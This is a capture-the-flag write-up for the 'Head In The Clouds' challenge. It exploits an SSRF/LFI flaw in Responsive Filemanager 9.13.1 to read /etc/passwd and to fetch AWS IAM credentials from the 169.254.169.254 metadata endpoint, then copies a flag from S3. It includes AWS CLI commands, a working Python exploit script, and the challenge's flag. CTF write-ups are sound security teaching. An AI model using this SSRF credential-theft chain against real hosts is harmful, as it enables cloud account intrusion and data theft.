# Head In The Clouds

Challenge Author: Arne Swinnen

Challenge files: https://s3-eu-west-1.amazonaws.com/be.cscbe.challenges.2021/headintheclouds_17ff529a880917fca4dbbaeb52995f40/responsive_filemanager_fixed.zip

# Writeup


1.	Browsing directly to the Flag URL yields Access Denied:




2.	By investigating the Docker container, we can see the web application is an instance of the Responsive Filemanager version 9.13.1:



 
3.	Some googling highlights a Server-Side Request Forgery & Local File Inclusion vulnerability in this exact version: https://www.exploit-db.com/exploits/45103 . This is clearly a vulnerability in the Upload section. Notice that this PoC also references metadata URL http://169.254.169.254/openstack: 

 

4.	Visiting the hosted web application, we can effectively enter URL file:///etc/passwd and hereafter download this file from the dashboard. However, this isn’t helpful for the challenge, as the flag is not hosted in the Docker container but on an external AWS S3 bucket:


 


 

 
5.	Entering the flag’s URL unfortunately results in Access Denied:
  



 
6.	However, since the Docker is also hosted on AWS, the AWS Metadata endpoint at http://169.254.169.254/latest/meta-data/iam/security-credentials/ is also reachable. After entering this URL, we indeed get a JSON file back mentioning role “cscbe2020challengearneswinnen”:




 
7.	Requesting file http://169.254.169.254/latest/meta-data/iam/security-credentials/cscbe2020challengearneswinnen yields temporary AWS credentials:


 

 
8.	By using these temporary credentials in the correct manner, we can now copy the flag.txt file from the target S3 bucket to our own machine with the AWS CLI and read out the flag:



```
# export AWS_ACCESS_KEY_ID=XXX
# export AWS_SECRET_ACCESS_KEY=YYY
# export AWS_SESSION_TOKEN=ZZZ
# aws s3 ls s3://cscbe2020challengearneswinnen
# aws s3 cp s3://cscbe2020challengearneswinnen/flag.txt . 
# cat flag.txt
```

 
 
9.	The python3 script below automates exploitation and cleans up as well. It returns the flag in case of success and errors otherwise, hence allowing you to use this to poll the challenge to confirm it’s still working: 

```python
import argparse
import requests
import boto3

parser = argparse.ArgumentParser(description='CSCBE2020ChallengeArneSwinnen PoC')
parser.add_argument("--target", required=True, type=str, help="Target URL (e.g. http://ec2-18-185-136-255.eu-central-1.compute.amazonaws.com:8080")
args = parser.parse_args()

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

s = requests.Session()
# s.proxies.update(proxies)
s.get(args.target + "/filemanager/dialog.php")
r1 = s.post(args.target + "/filemanager/upload.php", data = {"fldr":"","url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/cscbe2020challengearneswinnen"})
r2 = s.get(r1.json()['files'][0]['url'])
s.post(args.target + "/filemanager/execute.php?action=delete_file", data = {"name":"","path":r1.json()['files'][0]['name']})

s3_resource = boto3.resource(
    's3',
    aws_access_key_id=r2.json()["AccessKeyId"],
    aws_secret_access_key=r2.json()["SecretAccessKey"],
    aws_session_token=r2.json()["Token"]
)

obj = s3_resource.Object('cscbe2020challengearneswinnen', 'flag.txt')
body = obj.get()['Body'].read()

if body.decode("utf-8") == "CSC{MasterOfTheClouds}":
	print(body.decode("utf-8"))
	exit(0)
else:
	exit(1)
```